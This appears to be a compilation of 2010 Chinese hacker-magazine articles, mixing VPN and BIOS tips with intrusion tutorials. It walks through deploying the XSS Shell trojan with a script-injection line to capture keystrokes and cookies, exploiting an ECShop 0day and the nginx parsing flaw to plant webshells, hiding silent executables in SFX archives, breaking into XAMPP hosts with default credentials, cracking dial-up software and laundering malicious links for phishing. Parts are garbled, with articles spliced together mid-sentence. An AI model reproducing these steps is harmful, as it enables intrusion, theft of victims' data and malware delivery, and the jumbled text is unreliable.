借助远程入网，图1的隧道便是个人用户和 VPN 服务商之间建立的一条加密的传输隧道。这条隧道可以看成是两台主机之间的专用数据传输通道，由于采用了加密传输原理，可以成功穿透拦截防护设备。

VPN 服务器我们可以简单地理解成将来的代理服务器。那么我们通过和 VPN 服务器建立连接之后，以后所有的访问都是从 VPN 服务器发起的连接，会显示那边的 VPN 服务器信息，又会通过加密隧道传给每个用户，由此便实现了绕过防火墙的访问。

### 三、怎样使用 VPN

VPN 的使用主要有两种方式，一种是使用专用的 VPN 客户端与服务器进行连接，另一种是利用 Windows 用户网络配置远程 VPN 服务进行访问。下面用一个案例来说明。

在测试之前，我们先来看一个网站，网址是 http://www.bullogger.com 。通过浏览器访问时，网页显示无法打开（如图1）。

#### 1、使用 VPN 客户端

这里我在网上找到一个免费的 VPN 客户端供大家参考，其他客户端安装方式都大同小异。

首先，打开网址 http://www.packetix.net/en/secure/install ，会出现图3所示画面。这是一套 VPN 提供的 Web 安装控件，我们直接点“安装”按钮即可；同时也可以通过下载程序的方式安装。

安装之后我们将网页右侧的滚动条向下一拖，找到图4所示界面，点击“Start VPN Connection”按钮，开始启动 VPN 连接。连接并安装完成之后开始下载 VPN 客户端并自动安装，如图5。下载完客户端之后会自动安装客户端程序，完成后自动进行后续步骤。

安装虚拟网卡的过程中，任务栏会出现带黄色的小方框（如图7），而且 VPN 的连接状态也会显示在任务栏。安装完成之后 VPN 服务器会自动进行连接，任务栏里会有一个小按钮，如果没有成功，您可以重新点击自动连接即可。

连接成功后，任务栏颜色小图标会一闪一闪的，如图8所示为 VPN 连接成功标志。received 表示连接成功。当我们想要断开连接时，选择“DisConnect”即可断开 VPN 连接。

然后就可以访问 bullogger 网站了。打开浏览器输入网址 http://www.bullogger.com ，如图10，成功打开。

#### 2、手工配置连接

VPN 服务器会产生一个新的虚拟连接。首先我们要免费注册一个账号，打开网站 http://focusvpn.com/trial.html ，点击图11的“Free Trial”链接，将弹出图12的注册页面。

按图12提示，填写用户名和密码后点击“Continue”完成注册。

### 四、其他方法

#### 1、代理服务器

代理服务器的原理和 VPN 差不多，不过传统代理是建立一条既不加密也不鉴权的通道，而 VPN 是专门做通道，两个服务器之间传输信息一般都是加密的。因此，也可以采用代理服务器方式上网。本文中的方法是通过代理服务器网站（www.cnproxy.com/proxy1.html）找到代理设置，再在浏览器中设置代理地址。

接着选择 IE 浏览器工具栏的“Internet 选项”，点击“连接”选项卡的“局域网设置”，在代理服务器一栏选择使用代理服务器并填入地址，然后保存设置即可。通过这种方式，大家也可以访问其他网站。如果在局域网中使用，还可设置为“自动检测设置”。

这里先介绍到这里，祝大家有一个开心、轻松的上网环境，VPN 让网络生活更美好。

## 总结

通过以上几种方法对比，可以发现 VPN 服务器相比较代理服务器有着更稳定、数据加密、连接稳定等优点。代理服务器虽然便于设置，但只要浏览器设置了代理服务器地址就可以使用；对于某些需要长期使用的人来说，代理服务器也可作为临时方案。

VPN 传输过程中的数据加密是通过一个个数据包的形式，在网络中穿过建立好的专用隧道进行传输。使用 VPN 上网不但能保证访问互联网的安全性，也可作为企业内网连接的一种方式。

在这里就不详细介绍了，大家只要按照上面步骤完成即可。VPN 的连接过程完成后，就可以进行测试，验证是否成功。

编辑点评：把上面的内容整理成文档，清晰地展示了安装步骤、代理设置及 VPN 配置的操作方法。

#### 搞开 WinRAR 最后一个秘密

### 隐藏注释

本文你可以立即学到：
- 如何隐藏 WinRAR 的注释内容
- 如何从文件名中识别出 WinRAR 压缩包
- 如何找出伪装成图片的压缩文件

先说有一种常见的爱好，压缩包里常放有许多与压缩有关的内容。本文的讨论重点并不是如何压缩，而是如何让压缩包中的注释内容“隐藏”起来。

什么样的注释才是短小附带，并且不会在常见注释命令（如 path、setup 等）中暴露，如何实现？

```ini
Path=C:\
Silent=1
Overwrite=1
Setup=a.exe
Setup=b.exe
Setup=a.exe,0x00...
```

由此可见，自解压 RAR 格式文件存在很大的安全隐患。不光被执行的文件可以被注释隐藏，还可能被执行的命令也可以被隐藏，而使用者却完全察觉不到。

#### 解决 U 盘写保护问题

从本文你可以学到：
- 如何利用量产工具修复 U 盘
- 如何判断 U 盘是否坏了

#### 轻松修改 BIOS 的启动 LOGO 画面

从本文您可以学到：
- 如何通过刷 BIOS 修改启动 LOGO

想必很多人都使用自己的 DIY 电脑，因为价格便宜，但是开机的时候不能像品牌机一样显示大厂商的 LOGO。今天我就来教大家怎么修改 BIOS 的启动 LOGO 画面，让大家的电脑显示自己的 DIY LOGO。

### 一、准备软件

### 二、检测主板是否支持修改

这些是必备步骤。

软件（Magic Screen）只能支持 AWARD 的主板 BIOS，AMI 的主板 BIOS 不一定支持。对于板子的 BIOS 是否支持修改，得先读取 BIOS 信息，看是否有可修改功能，或者使用 “BIOS Agent” 之类工具先把 BIOS 信息读取出来。

如图1，可以得到测试计算机主板是“Award Modular BIOS v6.00PG”。如果你的主板是这个类型，那么就可以开始修改 LOGO 文件了。

### 三、修改 BIOS 的 LOGO 文件

我们知道开机 LOGO 文件是存放在 BIOS 之中的，所以要对 LOGO 进行修改就必须先对 BIOS 进行修改。但是修改 BIOS 是一个很复杂、风险也比较大的动作，下面详细介绍如何用低风险方法修改 BIOS 开机 LOGO。

#### 1、安装 Magic Screen

将你喜欢的 BIOS 修改工具“Magic Screen”下载后解压在桌面，然后双击文件夹中的“Setup.exe”进行安装，如图2。

安装时软件会弹出对话框，如果英文询问是否要在桌面创建快捷方式，选择 “Yes, I Want to Create Shortcut On Desktop（同意创建一个快捷方式到桌面）”，再点击“Finish（完成）”即可。

安装好软件后，双击快捷方式运行会出现一个错误提示框，如图3。

意思是“找不到主板型号，此软件仅用于某类主板”。为了去掉此限制，我们只要修改一个配置文件即可。打开“我的电脑”，找到 C 盘中的 “EPOXMBID.TXT” 文件，双击打开，将 “Softwa” 前面的三个字母修改成 “PAB”，如 “6A6AG0Y Softwa” 修改为 “6A6APAB Softwa”（注意：不要删除中间空格，直接替换字母即可），如图4。

接着，为了测试修改效果，我们要将 “EPOXMBID.TXT” 文件属性改成“只读”。在文件上点击鼠标右键，选择“属性”，勾选“只读”选项，如图5。

#### 2、进行 LOGO 文件替换

双击打开“Magic Screen”，它会提示你开机 LOGO 的尺寸和色彩（支持 640×480 像素的 16 色或 256 色图片），如图6。

点击软件中的“向右箭头”按钮会自动进行主板 BIOS 备份（为安全起见，建议先备份），如图7。

备份之后你就可以在“Magic Screen”中选择图片进行修改。建议大家自己 DIY 一张喜欢的图片，然后放到 “Magic Screen”的“SAMPLE”文件夹里，默认路径是：
`C:\Program Files\EPOX\Magic Screen\SAMPLE`

再提示一下图片要求：仅支持 640×480 像素的 16 色或 256 色图片。

这里以 Fireworks 为例：先打开 Fireworks，新建一张 640×480 像素、黑色背景的图片，然后进行 DIY 制作。

点击“文件”→“另存为”，格式选择“BMP”，再点击“选项”，将“格式”修改为“BMP 8”，调色数由“1色”修改为“256”。

文中图片说明：
- 图1 获取 BIOS 信息
- 图2 进行安装
- 图3 错误提示
- 图4 修改 BIOS 启动 LOGO 相关示意图
- 图11 相关提示
- 图12 刷新过程
- 图13 开机 LOGO

### 四、总结

## 小菜带你认识 XSS 木马 EvilOr[B,S,T]

从本文您可以学到：
- 如何使用 XSS Shell 木马

自己在渗透测试时无意间发现一个 XSS 木马，于是下载下来测试一下。虽然不算新，但特意拿出来与大家分享。XSS 木马很早就出现了，但是介绍不多。我在浏览过程中发现其功能相当强大：可获取对方用户访问网页时的鼠标操作、键盘操作内容，以及用户主机 IP 地址。下面具体带领大家认识这个 XSS 木马——XSS Shell。

XSS Shell 主要运行在 Windows 平台上；在 Linux 环境中，实践 XSS 木马对安全防御研究也有参考意义。这个程序使用较复杂，下面简要介绍。

XSS Shell 的程序包里有一个文件夹和两个文件，其中 `xssshell.asp` 用来实现木马程序与存在 XSS 漏洞网站间的通信功能；`DB` 文件夹存放 `shell.mdb` 数据库文件，记录木马运行中的各项数据，包括：

- IPCountry：受害网站主机 IP 地址所在地域
- Log：存储木马运行中的攻击总信息
- Victim：记录受害者详细信息
- VictimDetail：记录被攻击用户所用浏览器信息

使用前还要做简单配置：

- 1、修改 XSS Shell 默认配置。为防止别人直接读取木马源码，需打开 `xssshell` 文件夹下配置文件 `conf100.ini`，将其替换为约定名称。
- 2、加载改好的 `shell.mdb` 数据库名称。修改 `db.asp` 中数据库连接字符串 `Conn DBPATH=\"db\\shell.mdb\"`，改成当前文件夹或对应名称。

最后将这些文件夹与文件上传到自己的 ASP 空间或本地 IIS 服务器平台。由于文件名称及数据库文件不建议放在同一目录下，建议将数据库目录设置在根目录下级。为使服务器正常加载程序，需确保脚本环境配置正确。

〖本文内容涉及工具使用，仅供安全学习与研究，切勿用于非法用途〗

### 操作步骤

- 一、初始化配置：修改 XSS Shell 默认配置，避免源码被直接读取
- 二、加载数据库：将改好的 `shell.mdb` 上传到指定目录
- 三、上传木马：将文件夹与文件上传到 ASP 空间或本地 IIS 平台
- 四、运行测试：打开浏览器访问地址并进行简单测试

### 2010 第二季
## Q 版黑客 | Rudiment

DDOS（分布式拒绝服务攻击）、XSS Shell。实现 DDOS 的原理是采用黑盒网站地址，前面随机加 URL 地址进行访问的方法来对 WEB 应用程序所在的服务器进行抢流量。最后一个 Crash 攻击是对用户浏览器的，通过客户端脚本实现浏览器循环并稍微扰乱系统的方式使得用户机器死机。

为了能够更好地发挥 XSS Shell 的功能，XSS Shell 还支持用户自定义的函数方式。用 NotePad++ 打开 xsshell.asp 文件，来到第 336 行，见图 5。


将 XSS 漏洞插入到网站中，代码只要是 `<script src='你的 XSS Shell.asp 的网络地址'></script>`，这是最简单的写法。至于怎么放置攻击代码字段，你代码插入到存在 XSS 漏洞的网站中，我再不多说，大家可以看一下 AIpasa 大哥的《终结性安全攻略》这篇文章。这里以


在管理页面的 Victims 一栏中出现了 IP 地址，这就是 XSS Shell 通过网络页面钓鱼拦截浏览了它的用户之主 IP 地址，同时 XSS Shell 也能利用用户主机的 IP 以及点击的日志，最终采用一个模块化功能的方式来完成 Victims 一栏中的信息。在管理页面右侧的 Commands 一栏记录了要求对攻击者的操作方法，这一栏有 getcookies、getLoggerData、getKeyloggerData、getIntoURL 等函数。

下面的 Build Data Type 区域中输入如下建立方式代码，就可以把 Victim 的相关数据交给 Attack 建立。该区域支持 user-defined function 的功能，通过添加配置选项可以实现自定义命令执行。

```javascript
function cmdSample() {
    return "it";
}
```

图 7 修改完成后保存 XSSShell.asp 文件，然后打开 XSS Shell 文件夹下的 db.asp，需要在控制端上构建攻击方法。找到 7.1 标记之后，按图示填写函数名。

## 基础 | Q 版黑客
2010 第二季

#### 菜鸟必看：利用搜索匹配注入

从本文您可以学到：
- 如何通过非输入值发现注入点

学过注入的朋友都知道，常见的注入保护往往提取不够细致，注入点一般在前端十分容易触发。务必关注界面对数据的更改情况。类似地，很多时候我们需要从后台内容中发现注入点，并通过对目标系统的搜索功能入手，从而找到潜在漏洞。

```html
<form action="so.asp" method="post" name="form1">
  搜索关键字：<input type="text" name="keyword">
  搜索匹配类型：<select name="select1">
    <option value="title">标题</option>
    <option value="content">内容</option>
  </select>
  <input type="submit" value="搜 索">
</form>
```

不同网站上这个表单的写法略有差别，大家可以把这段代码保存为 html 格式，具体参数与名称的差别不大。这里的 name 属于表单里的定义，页面中不同控件的 name 属性不一定相同，但 select 框的 option 值通常被用于区分标题与内容。

在 db.asp 文件的 Command-Array 的一行，在括号中加入“cmdSample()”。一个简单的添加攻击方式的例子，保存 db.asp 文件，到此就 OK 了，重新打开 XSS Shell 的控制端就可以使用这个新的攻击方法了。

编辑点评：
很久以前，XSS 脚本的利用是很原始的，现在的很多利用都可，仍可以用工具化一系列利用 XSS，让 XSS 本身还未有不可克服的不足之处；如果你想成为 XSS 利用高手，潜台词还得从你的代码、命令上用心。


关键字 + keyword + "" 这是主要的，后面应该会有一个 order by 语句进行排序。分析一下，title 就是 select 标记里面的值 title，“计算机”是 input 标记 keyword 的值，但这里 keyword 的值是经过某个函数过滤后存储到这里的，这就是我们不能直接通过搜索发现注入的原因。

基本知识具备了，我们开始注入。右键点击正在浏览的页面，分析了一个网页的搜索栏所在的 form 的 name 属性是 form2，页面里有一个 select 标记名为 form2Select，title 标记为 select_1，标题不是唯一的，搜索框里的内容是有注入点的。随后将 keyword 的值替换为一个 HTML 搜索框来进行测试，发现其拼接输出到页面中。于是我们使用 order by 语句进行排序、where exists 结构进行判断，发现页面可以被注入。

我们来判断一下服务器的权限，页面中的表单提交到数据库，注入点可通过 where title (select 的值) like "%1%" 这类条件进行猜测。


#### 对某后门程序的一次浅析

从本文您可以学到：
- 如何取得后门中隐藏的信息
- 入侵某论坛，联合某工作人员发布的某些账号，昨闻某论坛出现一个更新的模板，保持管理员账号注册开启。
- 下载下来后，先观察了下视频教程，大致是用虚拟机远程了 0.3 服务，在使用后门程序后，只需启动该程序就会添加一个账户。视频图像会有一种种的画面，想马上打开试试……
- 我没有马上打开，而是先爬了下目录，没有发现问题（并不表示没有问题），随后又依样用工具浏览器扫描，看起来也没什么结果。无奈之下只好导出邮件的形式在虚拟机下打开了。故如图 1。


可能有效果吧，我没试，为了一探究竟，特意查究之。如 UPX 的壳我想大家都不陌生，脱壳手感、工具都很简单，这里就不再叙述了。脱壳后，如图 3。逆向分析，用 OD 载入，执行过程及参数的结果出来了，如图 4。下方的几条关键消息才是我关注的，否则难以显现。这个所谓的后门程序，也只“吃”……


于是我顺藤摸瓜，登录这个论坛的邮箱，不用多久查询一些蛛丝马迹，暗中找到了一些东西。通过这些信息，我们发现这个程序的执行似乎被绑定在了某人账号上，网络中的日志、邮箱以及其他记录显示，它可能与某个论坛用户相关联。这个所谓的程序也在无意中充当了分析工具……

编者点评：
记得之前，小白们拿到一个包，都是不同的姿态，不知道给别人做了多少遍呢。现今分析程序中，一个一个翻，且不管发邮件、采样时的数据是否正确，最终结果都指向同一账户。咦，似乎我这不就知道了什么……

#### 用 DOS 命令寻找网站下的可疑文件

从本文您可以学到：如何通过文件对比发现网站异常

在检测网站安全或寻找木马藏身的时候，我们经常需要查找某些指定类型的文件，比如有无异常存在。比如我们要查看一个 ASP 网站的程序文件是否被修改，是否存在可疑文件，除了逐个打开查看源代码外，最常用的方法就是把这些文件的信息和原始正确版本进行比较，比如文件被添加、删除或修改过。本文通过一个文件的大小、数量和时间等信息，说明怎样用 DOS 命令寻找可疑文件。


如果目标文件不存在则创建该文件，其结果与原来的一系列操作一样，这不是本文重点。对比文件操作就是将两个文件列表进行比较并找出不一致的地方。

这个 fileinfos.txt 文件我们首先将它写入到一个文本中，然后与标准文件进行比较，这样就能知道哪些文件被改动了、哪些被删除了或者新增了。

### 3. 对比采样文件

那么我们采用什么方式来处理呢？这里再引入一个 DOS 命令 fc，fc 是命令行下的文件比较命令，功能就是对两个文件进行比较。如果存在不同之处将提示，格式为：`fc file1 file2`。

说到这里你可能有人会想到，既然网站内文件被更改的时候，用前面的方法生成一个采样文件，然后与 fileinfo.txt 文件进行对比，若两个文件相同则可判定没有异常文件被更改，如果不相同，则说明新增的采样文件中可能包含了发生变化的内容，也就是说有可能是木马或被篡改的迹象。

下面看一下 fc 的具体用法：首先将原样目录下的 ASP 文件和内容保存，再执行 `dir /s C:\Inetpub\wwwroot\*.asp > D:\bak\fileinfo_right.txt` 生成一个正常的样本文件 `fileinfo_right.txt`，然后执行 `fc D:\bak\fileinfo_right.txt D:\bak\fileinfo_wrong.txt` 查看对比结果。

通过上面的做法，我们就能轻松定位可疑的 ASP 文件。

#### ECShop_V2.7.2 0day 利用

从文中可以学到什么：
- ECShop_V2.7.2 0day 漏洞的利用

ECShop_V2.7.2 出了 0day 后，EXP 也是满天飞，不会用的亦可学习一下老漏洞渗出的原理，原理文档：http://bbs.wooyun.org/viewtopic.php?id=133。这里是一个注册通道，修改数据库结构的话，就当打到程序的支点了。使用 SQL 语句插入 key 时，导致此种操作失效，只要找到 value 重新赋值 TK key，当 SQL 语句引用 key 时，导致错误的产生。

下面简单介绍利用 Exp 的前端方法。前辈知者，勿要指教，我先详细介绍一下利用 Exp 的前端方法。

前置工作：

下载 ECShop Exp 并学习如何使用它。下载完成后，以 PHP 环境配置好商城目录，利用工具，最常用的就是 Apache、PHP、MySQL，步骤请见图 1。设置好以后，安装项目，确保数据库和文件，完成以后，接下来再设置 MySQL 的管理后台，如图 2。

最后点击 Install，我们可以恢复数据完成。然后利用 Exp 访问到网站后台，这里先登录后，导出网站的 MD5，复制保存到 www.xxx.com 服务器端的某个 PHP 文件里。

前台中加两步，再把目录读取如 myshop.bin 之类的记录，最后在后台添加管理员，这里设置好后，可以直接在 webshell 中使用。图 6 为提交代码片段。

怎么用呢？（详细分析见 96 页“解析一次”）


那我们的 shell 在哪儿呢？访问 http://www.xxx.com/myship.php，结果是根目录下的 myship.php 文件，即可得到一句话木马，然后通过后台管理获得管理员权限……

#### nginx 文件类型错误解析漏洞
作者：k4shif2[3E,S.T]

从本文可以学到：
- nginx 文件类型错误解析漏洞分析
- 漏洞的利用演示

废话不多说，先给出原文地址：http://www.80sec.com/nginx-securit.html，最经典的就是要先看此文，在此基础上，网站上还给出了与本文漏洞原理一样的“IIS 解析器漏洞及文件类型解析错误”论文，感觉更贴近学术可以看一下。

### 0x01 漏洞介绍

nginx 是一款高性能的 web 服务器，默认以 cgi 的方式支持 PHP 的运行，在配置文件当中可以以如下的方式支持对 PHP 的访问：

上面配置文件中 location 对 web 请求进行选择的时候会使用“URI 块匹配原则”进行选择，其中传递到后端 Fastcgi 处理的关键字 SCRIPT_FILENAME 即 Fastcgi_script_name 变量，可以看到 Fastcgi_script_name 变量大致是按照“URI+PATH_INFO”的形式。URI 不规范时便不再附加 PATH_INFO，而是直接将 PATH_INFO 置空，同时脚本执行路径变成了 SCRIPT_FILENAME 的值。

因此，只要构造如 http://www.xxx.com/1.jpg/1.php 这样的 URI，再让 php 将其解释成图像与脚本混合的形式，就可能造成 Nginx 误把图片当作 PHP 文件解析。

### 0x02 本机搭建环境

你需要 nginx 和 PHP 两款软件，首先安装 PHP，再安装数据库，一路 next 默认，直到到达这里。这里一般选择“Other CGI”，因为 nginx 默认以 CGI 模式运行，因此系统会让你们以 CGI 的方式支持 PHP 的安装。然后安装 nginx，遇到不再提示时点击“运行”，此时支持 PHP 的配置文件 nginx.conf 会在 nginx 安装目录下。

### 0x03 实例示范漏洞

我们先把小马（webshell）伪名为 logo.jpg，访问一下，如图 5。目的是让木马文件由 .jpg 后缀伪装显示出来，接下来注意：访问 http://localhost/LOGO.jpg/1。

### 0x04 利用分析

显然，这个漏洞甚是有用。只要用户上传图片文件，就会导致网站沦陷（穿过不防）。利用这个漏洞要注意：1. 目标 Web Server 是 nginx（版本无所谓），因为会分析 PHP 传递；2. 目标站点以 CGI 方式解析 PHP；3. 上传的图片文件（终端调用）或指定的访问方式解析后成为动态内容。

如果目标是特定字眼的话，只要找到路径设置，接着把请求后缀改成特定字符即可，或利用 nginx 解析特性构造相应的 URI 即可。

### 0x05 简单小结

这里有两点要注意：1. 你的 PHP 文件不能有 GIF89a 等字眼内容，如果木马头部加入了 GIF89a，Nginx 不能正确解析，如图 11；2. PHP 一句话测试不成功，改一个后缀名不能成功。

真正的修补还要等 Nginx 官方出新的版本。好了，大家可以将 php.ini 中的 cgi.fix_pathinfo 设置为 0，或者在 nginx.conf 中添加：

```nginx
if ($fastcgi_script_name ~ \.\./\.php ) {
    return 403;
}
```

#### 破解拨号软件绕过 12 点断网限制

从文中可以学到：
- 了解 802.1x 认证的工作方式
- 破解联想天工拨号软件

大多数大中专都有自己校园的网络管理软件。我们学校用的是联想天工网号，是 802.1X 认证协议。该软件每次晚上 12 点之后断网。很多时候电脑没断开，或者游戏程序又没有结束就断开了，很不爽，于是就有“破解它”的想法。在网上搜索无果后，开始发掘，发现了很多能够无声地向客户端程序发包的软件的破解版。


简单介绍一下这个拨号软件的组成部分，如图 1 所示。包含很多的文件，其中可以看见几个动态链接库文件和很多的图文文件。直接安装后，在系统盘的 System32 目录下生成 lcx1ent.dll 等动态链接库文件，在安装目录下生成 lcx1ent.exe。界面如图 1 所示。

特别说明：我们学校每个认证对应一个网段号，这个网段号对应的 MAC 地址绑定，如图 2 所示，申请上网号后要填写好网络中心分配的 IP/网卡地址。之后路由就只能登录某一上网的 MAC 地址。也就是说用户自己的电脑在其他地点上网，带宽只能在 MAC 和 IP 绑定设定的网段上。

“消息”或“提示”对话框如图 3、图 4 所示。
这个软件先根据什么来判断是否断网呢？联网看倒计时的提示。系统再将同学的倒计时时间与网络中的唯一用户账户关联。屏幕中不同光标，说明在断网时分别判断两种机制，可先发回信息。而后提示的实际时间总会在 12 点，程序再行执行，此时该断网后的时间会被自动判断断开，所以我们认为消息框的返回值判断断网时会是正常的而已。当然，我们试了很多遍，结果是，在 12 点被断网后，程序会自动退出，需要重新打开。

我是在睡前的浏览器进程中发现与这个 Messagebox 有关的提示程序，因为它有时会在认证的时候弹出一个提示框，我们就觉得它与断网之间有点关系。

这时我们先抓包看看一个 pcap 文件，输入已经申请、证书没用的用户名和口令，发出来连接请求，客户端程序将发出请求认证的报文给认证端，开始启动一次认证过程。

## 基础｜另类HACK

### 2010 第三季

00403929。晚上再次测试，不再断网了。很多学校都用的是 802.1x 协议的认证客户端，大部分都可以用此方法来实现不断网。有关这方面的朋友可以去试试吧。

因为我们偶尔会遇到某些断网现象，不理解这个断网原因，所以本文将结合具体情况进行分析。也许是因为某些特殊情况。为了适合大家，故把这段程序做简略分析。若有其他人也有这样的问题，多试一下吧。其实我最初的朋友里基本没有人断过网，但有几个会遇到混进军用节点后正常断网的情况，我先做了这样的 hack 修改。除此之外，还会有很多人遇到其他断网现象，比如上网时间到、断开连接等等。

【所谓可上网的机器在 3 分钟，触发逻辑如下】  
【攻击网络的时机为第 0 到第 9 秒，0xD、0xC】——004035C9  
【访问内容有关的图是——00403470】

下面用 OD 打开 1xclient.dll，来到 00403496 处，如图 9 所示。在断网前 3 分钟会弹出一个 MessageBox 提示，表示还有 3 分钟就断开网络。3 分钟之后系统会取消提醒并开始倒计时。断网服务器地址等信息中可以看到计时和客户端信息。根据代码可知，目前这个“3 分钟断开”的防断网措施较常见。实际中也可能是 5 分钟关闭，或者 3 分钟内完全不上网。开始断网时应在服务器侧触发，所以会出现 3 分钟提示。把这个时间文字改到后面，比如改成 12 或 13 分钟，这个状态就可能继续。无论重启系统还是再次断网，依旧会在 3 分钟时出现提示，我们继续研究，如图 10 所示。

这时再看并修改位于断网前获取到的时间，进入后发现是一个对话框，提示内容为“5 分钟之后就要断开网络了，网络连接将被终止”。这是常见断网提示，如果想让它永远不出现，只要修改相关逻辑即可。接下来在 004034CC 处，如图 10 所示。

备注：

在一定程度上，我们并不是完全破解这类内容。虽然大部分都可以实现不断网，但还是要先清楚这套软件本身是什么。因为某些软件上网会有限制，一部分属于较先进的控制程序。对此有些人也许认为保守，但我想更重要的是安全性和稳定性。最后补充一点：这个软件本身支持的功能，最好不要过度修改，以免造成系统不稳定。

编辑点评：作者介绍了原程序的破解过程，并通过手动修改说明了如何让断网提示失效。这种方法更多是对原理的演示，并非真正意义上的安全绕过。建议仅用于学习和研究。

---

## 腾讯微博洗白黑网址

从本文您可以学到：

- 认识腾讯微博短网址服务；
- 利用腾讯微博短网址服务进行挂马和社工。

最近微博比较火，我也注册了一个腾讯微博来玩。有空时偶尔看看别人都说了什么，有些内容还是很有意思或搞笑的。在看微博时，我注意到一个小事：微博中常能看到以 `http://url.cn/` 开头的链接，如图 1。看得多了就留意了一下，网上搜索后发现，`url.cn` 就是腾讯微博短网址服务的域名。你在腾讯微博中输入的任何链接，发布后都会自动变成 `url.cn/` 的地址。甚至很多来自其他站点的链接也会被重定向到该域名下，例如 `http://www.baidu.com/` 被转换成 `http://url.cn/0D1Zg`，如图 2。

在聊天窗口中直接发送 `http://nohack.3322.org`，链接前会出现问号，并提示“该网址有危险”，如图 3。在腾讯微博发布该链接后，变成了 `http://url.cn/4RXkVd`。在 QQ 聊天窗口中直接打开 `http://url.cn/4RXkVd`，依然会显示为安全对号，并且没有“安全提示”，如图 4。回到腾讯微博外链中点击它也会安全打开。若用于广告投放、账号钓鱼或其他用途，会让使用者更容易忽略微博短域名背后的安全问题。

---

## 让 Win 7 边睡边下

从本文您可以学到：

- 认识 Win 7 的离开模式；
- 学会如何开启离开模式。

现在很多电脑都使用 Win 7，而不少朋友还只是习惯在台式机上装 QQ、BT 下载等软件，甚至不太清楚在低功耗状态下能否保持网络连接并继续任务。其实 Win 7 提供了一种叫 “Away Mode” 的工作模式，即“离开模式”。它可以在保持网络连接畅通的状态下进入类似睡眠的最小工作模式。

### 方法一：修改注册表

新建一个“DWORD（32 位）值”，并将其命名为 “AwayModeEnabled”，然后把键值改为“1”，如图 1 所示。点击“确定”后按 F5 刷新并关闭注册表编辑器（或重启系统）即可。

### 方法二：借用 Win 7 优化大师

如果不想手动进入注册表编辑器建立并修改键值，还可以借助“Win 7 优化大师”。到 `http://www.win7china.com/windows7master/` 下载并安装软件（安装过程中注意“Google 工具栏”和“闪游浏览器”插件选项）。运行后选择“系统设置”选项卡下的“系统设置”，勾选“开启 Windows 7 离开模式（AwayMode）”，单击右侧“保存设置”按钮，如图 2，最后重启系统即可。

---

本次文章可归纳为：

- 认识常见的刷流量工具；
- 学会使用工具刷流量。

想提高网站流量而不投入太多费用？本文提供一些免费提高流量的工具及使用方法，可帮助站长提升网站排名和访问量。其原理通常是通过软件程序调用不同 IP，模拟自然访问浏览。

## 一、流量精灵

先进入流量精灵官网 `http://www.spiritsoft.cn`，点击“立即下载”，安装后启动程序（urlcore.exe），打开主界面，如图 1。然后在“我的网址”输入框中填入自己的域名，例如 `http://www.9msky.com/`（注意网址格式）。输入后点击“开始”。

- 开始分享：将网址提交给服务器，使地址处于在线状态。输入完网址后一定要点击，否则不会有流量；
- 停止分享：通知服务器下线，服务端会停止向该网址输出流量。

软件评价：软件较简单，界面简洁，使用容易；可通过添加多个窗口实现多线程任务。

## 二、沙丁鱼流量联盟

注册网址：`http://www.virtualvisit.cn/index.php?act=userreg`。下载软件并注册账号后进入管理界面，如图 3。

进入网站后，在“管理中心”里点击“刷排名”查看网站列表并开始任务。每天运行软件约 2 小时，可带来相对稳定的访问浏览。以提升网站访问为目的的用户，不必过分担心“可用积分”，只要每天有一定的分享量，也能获得流量。

- 网址编号：服务器为网站分配的唯一编号，和网站一一对应；
- 累计浏览：表示来自其他用户的浏览次数。

## 三、1400 流量王

先在 `http://www.1400.com.cn/User/R.asp` 注册用户名，注册后登录管理中心：`http://www.1400.com.cn/User/Login.asp`。登录后可通过互刷获取积分，有积分后别人才能刷到你的网站。刷通道有三个，任选其一即可。简单说就是先刷别人拿积分，再用积分换别人刷你的网站。

---

### 四、下载流量专题

下载软件：`http://duot.com/soft/15689.html`，在软件界面点击“注册会员”（主程序中可见图 7）。

在“后台设置”中填写网站地址与关键词后点击“提交”。如果没有关键词可先留空。程序支持 IE（Internet Explorer）及其他浏览器。

---

## Is my style——游戏个性修改

从本文你可以学到：如何修改魔兽争霸的背景图片。

很多人都玩游戏，很多人都玩同一个游戏——魔兽争霸。面对长期不变的“冰封王座”界面（如图 1），是否会有厌倦感？今天就带你做一个不同风格的界面。

网上常见的一些主题图（如图 2、图 3）已经很流行。现在就教你如何完成自己的 style。

首先，游戏背景图大小是 1024×768。用 PS 把自己喜欢的图片处理好后，保存为 `MainMenu.tga`。注意尺寸要匹配。再准备 MPQMaster，用于导入图片等操作。

接着修改载入界面。同样用 MPQMaster 打开游戏根目录下的 `war3.mpq`，进入 `LoadBar` 和 `Multiplayer` 文件夹，对应的文件就是载入游戏时的画面。载入图实际上会被分割成 4 部分（如图 6）。打开工具后可分别修改四个部分，再用 BLP 转换工具将图片转成 BLP 文件。

所有 BLP 文件放到生成的 UI 文件夹中，具体位置：`UI\Glues\Loading\Multiplayer`。加载流程中常见文件如：

- `Loading-BarBorder.blp`（进度条外框）
- `Loading-BarGlow.bmp`（进度条发光区域）
- `Loading-BarFill.blp`（进度条填充区域）

可用 PS 等工具制作一张约 512×64 的图片，建议先存为 PNG（便于后续转换显示效果），再用 BLP 转换器转换，放到 `UI\Glues\Loading\LoadBar` 文件夹中，即可得到新的加载条。

至此，主要修改完成，你就可以拥有自己的个性化界面了。

编辑点评：修改游戏背景图片虽然不是大改动，但很适合 DIY，能增加不少乐趣。

---

## 一次简单的肉鸡之旅

从本文可以学到：了解对 XAMPP 的入侵过程。

近来整理硬盘发现一份以前收藏的 XAMPP 入侵教程，不知道现在是否还有效，于是尝试验证。通过 Google 搜索 `title: XAMPP Version` 可发现部分目标站点。随后尝试访问其 `phpmyadmin`，并进一步测试。

执行 SQL 语句尝试获取 shell。过程中遇到部分页面 404，于是继续判断目标系统与管理路径位置。

小知识：什么是 XAMPP？  
XAMPP 是一个易于安装的 Apache 集成发行包，包含 MySQL、PHP 和 Perl，可用于 Windows、Linux、Solaris 和 Mac OS X，是非常方便的 Web 服务器软件。

后续还尝试了 FTP 连接。文中提到默认用户密码为 `newuser / wampp`。若连接成功可继续添加用户。也尝试了命令行 `ftp www.xxxx.com`，但出现 `Connection closed by remote host`。

又通过站点同服务器查询工具继续旁路分析，例如：  
`http://www.yougetsignal.com/tools/web-sites-on-web-server/`

随后定位到目标使用 Wordpress。测试网上已有漏洞未果后，从官方获取 3.0 源码本地验证，继续分析后台文件上传与编辑器逻辑，涉及 `wp-admin/includes/file.php`、`wp-admin/includes/class-phpmailer.php` 等路径。通过构造上传流程，尝试实现 webshell。实测中出现“上传图片被当成可执行文件处理”的异常情况。

